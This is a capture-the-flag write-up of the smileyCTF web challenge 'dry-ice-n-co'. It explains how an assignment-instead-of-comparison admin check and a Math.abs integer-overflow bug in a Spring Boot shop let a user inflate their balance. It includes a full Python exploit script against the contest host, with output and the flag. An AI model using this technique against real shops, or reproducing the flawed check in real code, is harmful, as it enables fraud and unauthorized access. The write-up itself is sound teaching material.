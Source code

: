 ```yaml
---
title: dry-ice-n-co
---
```


# dry-ice-n-co

## Introduction

smileyCTF

**Category:** Web Exploitation

**Write-up date:** 18/06/2025

**Question:**
Hi. I'm opening up my shop for you to buy my favorite thing in the world. DRY ICE!!!

Use coupon code `SMILEICE` at checkout for 20% off! That's coupon code `SMILEICE` at checkout for 20% off!

**Point:** 138 points

## Source code analysis

First impression, this chall source code is written from java, springboot application for exact. This application is
written follow MVC design pattern so it kinna easy for us to read the source code.

Looking at the code, we can see that the requirement for the flag is in `ShopController.java`

```java
private final List<DryIceProduct> availableProducts = new ArrayList<>(Arrays.asList(
        new DryIceProduct("flag", 1000000, "you should buy one of these (if you can afford it)"),
        new DryIceProduct("Small Block", 16, "5kg block of dry ice, perfect for small coolers"),
        new DryIceProduct("Medium Block", 30, "10kg block of dry ice, ideal for medium-sized coolers"),
        new DryIceProduct("Large Block", 50, "20kg block of dry ice, great for large coolers"),
        new DryIceProduct("Pellet Pack", 20, "5kg of dry ice pellets, perfect for shipping")
));
```

But when the user start, the application give us 100$. So somehow we have to buy a 1000000\$ item with 100\$

```java
public ShoppingCart() {
    this.items = new ArrayList<>();
    this.balance = 100; // Initial balance of $100
    this.couponCode = null;
}
```

Then how can we do this chall, thanks to some logic bug in route `/admin/add-product`, we could add something we want
into the website without admin permission.

```java

@PostMapping("/admin/add-product")
public String addProduct(@RequestParam String name,
                         @RequestParam int price,
                         @RequestParam String description,
                         HttpSession session) {
    User user = (User) session.getAttribute("user");
    if ((user.admin = true) && user != null && name != "flag") {
        availableProducts.add(new DryIceProduct(name, price, description));
    }
    return "redirect:/";
}
```

Look carefully, in the if statement, the `user.admin` is assignment, not comparison, meaning the website are not check
for admin, just checking for other one, therefor making us able to add product.

We can assign some negative number, hopping when buy the balance will go up. But when add negative item into the cart,
they suddenly turn into positive number.

![img.png](../../../../assets/dry-ice-n-co/img.png)

In the `getTotal` function, to avoid any negative number the application get te total then use `Math.abs(total)` to get
the positive value of the cart.

```java
public int getTotal() {
    int total = items.stream()
            .mapToInt(CartItem::getTotal)
            .sum();
    total = Math.abs(total);

    if (isCouponValid()) {
        total = (int) (total * (100.0 - (double) DISCOUNT_PERCENTAGE) / 100.0);
    }

    return total;
}
```

But `Math.abs()` have a hidden secret that it will take any 2's complement of the num as the positive value meaning that
when we use `Integer.MIN_VALUE`, the abs will be `Integer.MIN_VALUE` as well.

```java
public static int abs(int a) {
    return a < 0 ? -a : a;
}
```

But when we add using the min value, the balance will overflow result in our balance will become `Integer.MIN_VALUE`. So
using the coupon code earlier, we can reduce the total of the cart, effectively add some cash into our balance.

![img.png](../../../../assets/dry-ice-n-co/bal.png)

Using that balance, we can easily buy our flag.

## Exploit

```python
import random
import re

import requests

URL = "https://web-dry-ice-n-co-gkyz1s6q.smiley.cat"


def main():
    product_name = "Test Product" + str(random.randint(1, 10000))
    session = requests.Session()
    print("[+] Get new JSESSIONID.")
    session.get(URL)
    print("[+] Add new item that have Integer.MIN_VALUE price.")
    session.post(f"{URL}/admin/add-product", {
        "name": product_name,
        "description": "Test Product",
        "price": -2147483648,
    })
    print("[+] Add new item that have Integer.MAX_VALUE price.")
    session.post(f"{URL}/add", {
        "productName": product_name,
        "quantity": 1
    })
    print("[+] Apply coupon to avoid integer overflow.")
    session.post(f"{URL}/apply-coupon", {
        "couponCode": "SMILEICE"
    })
    print("[+] Buying negative item to add balance into account.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Balance:", re.findall(r"(?<=<h3 class=\"text-center\">\$<span>)\d+", req.text)[0])
    print("[+] Add flag into cart.")
    session.post(f"{URL}/add", {
        "productName": "flag",
        "quantity": 1
    })
    print("[+] Buying flag.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Flag:", re.findall(r"(?<=<pre>)[^<]+", req.text)[0])

if __name__ == "__main__":
    main()
```

Output

```
[+] Get new JSESSIONID.
[+] Add new item that have Integer.MIN_VALUE price.
[+] Add new item that have Integer.MAX_VALUE price.
[+] Apply coupon to avoid integer overflow.
[+] Buying negative item to add balance into account.
[+] Balance: 1717987018
[+] Add flag into cart.
[+] Buying flag.
[+] Flag: .;,;.{this_is_not_a_political_statement_btw}
```

**FLAG:** .;,;.{this_is_not_a_political_statement_btw}
